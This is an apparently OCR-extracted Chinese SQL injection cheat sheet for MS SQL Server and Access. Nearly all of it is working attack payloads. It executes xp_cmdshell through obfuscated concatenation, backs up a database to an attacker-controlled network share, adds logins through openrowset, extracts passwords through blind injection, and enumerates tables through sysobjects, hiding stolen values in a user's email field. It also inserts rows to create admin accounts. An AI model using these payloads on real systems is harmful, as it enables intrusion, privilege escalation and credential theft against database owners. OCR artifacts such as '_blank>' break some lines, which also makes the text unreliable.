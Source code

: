 	;declare @a sysname set @a=xp_blank>_+cmdshell exec @a dir c:\
	;declare @a sysname set @a=xp+_blank>_cm’+’dshell exec @a dir c:\
	;declare @a;set @a=db_blank>_name();backup database @a to disk=你的IP你的共享目录bak.dat
	如果被限制则可以。
	select * from openrowset(_blank>sqloledb,server;sa;,select OK! exec master.dbo.sp_blank>_addlogin hax)
	
	查询构造：
	Select * FROM news Where id=... AND topic=... AND .....
	adminand 1=(select count(*) from [user] where username=victim and right(left(userpass,01),1)=1) and userpass <>
	select 123;--
	;use master;--
	:a or name like fff%;-- 显示有一个叫ffff的用户哈。
	and 1<>(select count(email) from [user]);--
	;update [users] set email=(select top 1 name from sysobjects where xtype=u and status>0) where name=ffff;--
	;update [users] set email=(select top 1 id from sysobjects where xtype=u and name=ad) where name=ffff;--
	;update [users] set email=(select top 1 name from sysobjects where xtype=u and id>581577110) where name=ffff;--
	;update [users] set email=(select top 1 count(id) from password) where name=ffff;--
	;update [users] set email=(select top 1 pwd from password where id=2) where name=ffff;--
	;update [users] set email=(select top 1 name from password where id=2) where name=ffff;--
	上面的语句是得到_blank>数据库中的第一个用户表,并把表名放在ffff用户的邮箱字段中。
	通过查看ffff的用户资料可得第一个用表叫ad
	然后根据表名 ad得到这个表的ID 得到第二个表的名字
	
	insert into users values( 666, char(0x63)+char(0x68)+char(0x72)+char(0x69)+char(0x73), char(0x63)+char(0x68)+char(0x72)+char(0x69)+char(0x73), 0xffff)--
	insert into users values( 667,123,123,0xffff)--
	insert into users values ( 123, admin--, password, 0xffff)--
	;and user>0
	;and (select count(*) from sysobjects)>0
	;and (select count(*) from mysysobjects)>0 //为access_blank>数据库
	
	枚举出数据表名
	;update aaa set aaa=(select top 1 name from sysobjects where xtype=u and status>0);--
	这是将第一个表名更新到aaa的字段处。
	读出第一个表，第二个表可以这样读出来（在条件后加上 and name<>刚才得到的表名）。
	;update aaa set aaa=(select top 1 name from sysobjects where xtype=u and status>0 and name<>vote);--
	然后id=1552 and exists(select * from aaa where aaa>5)
	读出第二个表，一个个的读出，直到没有为止。
	读字段是这样：
	;update aaa set aaa=(select top 1 col_blank>_name(object_blank>_id(表名),1));--
	然后id=152 and exists(select * from aaa where aaa>5)出错，得到字段名
	;update aaa set aaa=(select top 1 col_blank>_name(object_blank>_id(表名),2));--
	然后id=152 and exists(select * from aaa where aaa>5)出错，得到字段名
	
	[获得数据表名][将字段值更新为表名，再想法读出这个字段的值就可得到表名]
	update 表名 set 字段=(select top 1 name from sysobjects where xtype=u and status>0 [ and name<>你得到的表名 查出一个加一个]) [ where 条件] select top 1 name from sysobjects where xtype=u and status>0 and name not in(table1,table2,…)
	通过SQLSERVER注入_blank>漏洞建_blank>数据库管理员帐号和系统管理员帐号[当前帐号必须是SYSADMIN组]
	